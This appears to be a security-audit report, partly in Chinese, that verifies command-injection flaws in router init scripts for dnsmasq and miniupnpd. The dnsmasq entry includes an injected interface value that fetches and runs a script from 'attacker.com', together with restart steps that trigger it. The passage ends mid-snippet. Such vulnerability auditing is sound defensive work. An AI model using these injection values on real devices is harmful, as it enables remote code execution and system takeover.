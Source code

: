 ### Verification Metrics
- **Verification Duration:** 146.45 seconds
- **Token Usage:** 109743

---

## Untitled Finding to Verify

### Original Information
- **File/Directory Path:** `etc/init.d/dnsmasq`
- **Location:** `函数 'dhcp_add'，第368行`
- **Description:** 在 'dhcp_add' 函数中，'ifname' 变量从 UCI 配置获取并直接插入到 'udhcpc' shell 命令中，缺乏过滤或转义。攻击链：攻击者通过修改 UCI 配置（例如，通过 web 接口或文件写入）设置恶意 'ifname' 值（如 'eth0; malicious_command'）→ 当 dnsmasq 服务启动时，'config_foreach dhcp_add dhcp' 调用 'dhcp_add' 函数 → 'ifname' 被用于 'udhcpc -n -q -s /bin/true -t 1 -i $ifname' 命令 → 导致任意命令执行。触发条件：dnsmasq 服务启动且配置中有 'dhcp' 节。可利用性分析：缺少输入清理，允许命令注入，直接导致权限提升或系统控制。
- **Code Snippet:**
  ```
  udhcpc -n -q -s /bin/true -t 1 -i $ifname >&- && {
  	logger -t dnsmasq \
  		"found already running DHCP-server on interface '$ifname'" \
  		"refusing to start, use 'option force 1' to override"
  	return 0
  }
  ```

### Verification Conclusion
- **Description Accuracy:** `accurate`
- **Is a Real Vulnerability:** `True`
- **Risk Level:** `High`
- **Detailed Reason:** 警报描述准确：在 'etc/init.d/dnsmasq' 文件的 'dhcp_add' 函数中，'ifname' 变量从 UCI 配置获取并直接用于 shell 命令，缺乏过滤或转义。证据显示：1) 输入可控：攻击者可通过 web 接口或文件写入修改 UCI 配置中的 'ifname'；2) 路径可达：当 dnsmasq 服务启动时，'start' 函数调用 'config_foreach dhcp_add dhcp'，执行易受攻击的代码路径（除非 'force' 选项设置为 1）；3) 实际影响：命令注入可能导致任意命令执行，实现权限提升或系统控制。完整攻击链：攻击者设置恶意 'ifname'（如 'eth0; wget http://attacker.com/exploit.sh -O /tmp/exploit.sh; sh /tmp/exploit.sh'）→ 修改 '/etc/config/dhcp' 中相关 'dhcp' 节的 'interface' 指向该恶意值 → 重启 dnsmasq 服务（例如 '/etc/init.d/dnsmasq restart'）→ 触发命令注入。漏洞风险高，因为攻击者已拥有登录凭据，可直接利用。

### Verification Metrics
- **Verification Duration:** 149.96 seconds
- **Token Usage:** 125246

---

## Untitled Finding to Verify

### Original Information
- **File/Directory Path:** `etc/init.d/miniupnpd`
- **Location:** `miniupnpd script, start function, around lines where 'config_file' is used in 'service_start' call`
- **Description:** A command injection vulnerability exists in the 'miniupnpd' init script due to unquoted usage of the user-controlled 'config_file' parameter in the 'service_start' command. The complete attack chain is as follows: 1) An attacker can set the 'config_file' UCI parameter (e.g., via web interface or CLI) to a string containing shell metacharacters (e.g., '; malicious_command'). 2) When the miniupnpd service starts or restarts, the script reads this value via 'config_get conffile config config_file'. 3) The value is used to build 'args="-f $conffile"' without quoting, and then passed to 'service_start /usr/sbin/miniupnpd $args'. 4) Due to shell word splitting, if 'conffile' contains metacharacters like ';', the shell interprets them as command separators, executing arbitrary commands. This is exploitable because the script lacks input sanitization and uses unquoted variables in a command execution context.
- **Code Snippet:**
  ```
  config_get conffile config config_file
  # ...
  ```